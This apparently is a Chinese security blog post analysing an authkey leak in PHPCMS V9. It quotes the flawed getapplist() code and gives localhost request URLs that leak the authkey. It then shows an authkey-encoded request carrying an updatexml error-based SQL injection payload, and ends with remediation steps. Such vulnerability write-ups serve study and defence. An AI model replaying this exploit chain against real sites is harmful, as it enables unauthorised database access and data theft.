 title: "PHPCMS Authkey 泄露漏洞分析"
date: 2016-03-10 09:30:00
tags: [安全,原理,总结]
----

<!-- more -->
# PHPCMS V9 Authkey泄露漏洞

在PHPCMS V9的版本中（现已修复）

`phpcms/phpsso\_server/phpcms/modules/phpsso/index.php`

中有一段代码如下：
    
    /**
         * 获取应用列表
         */
        public function getapplist() {
                $applist = getcache('applist', 'admin');
                exit(serialize($applist));
        }

    
        


此处可以获取cache_admin的信息，内容如下：

![PHPCMS AUTHKEY.png](https://i.loli.net/2018/06/27/5b33658cc7db1.png)

可以获得authkey和调用它的文件`api.php` 

获得cache的URL是通过上传用户头像处可以解出来：

`http://localhost:8038/study/phpcms/phpsso_server/index.php?m=phpsso&c=index&a=uploadavatar&auth_data=v=1&appid=1&data=e5c2VAMGUQZRAQkIUQQKVwFUAgICVgAIAldVBQFDDQVcV0MUQGkAQxVZZlMEGA9%2BDjZoK1AHRmUwBGcOXW5UDgQhJDxaeQVnGAdxVRcKQA`


将其中的uploadavatar替换成getapplist即可获取cache信息。

拿到authkey之后，就可以利用他编码请求从而达到执行特定操作的目的。

通过cache_admin可以看出来在api.php?op=phpsso处调用了authkey。我们直接定位到该处。使用authkey加密payload。

`http://localhost/api.php?op=phpsso&code=6f56BQgIUVQDVAkGUwEFCgwDAwNSAVBdA1UHD1RSURFZDlgIS0EPCFwDUFhFFl1dCBMWVlkHE0xDUFJDBktfCRhQGlZXVgIFR0weSERPQUpQRh4eHk8CEBA`

加密的语句是：`action=synlogin&uid=' and updatexml(1,concat('~',user()),1)#`

执行完后的结果：

![结果](https://i.loli.net/2018/06/27/5b3365aa949dc.png)

# 修复


1. 升级PHPCMS版本

2. 删除cache文件

3. 修改默认的authkey

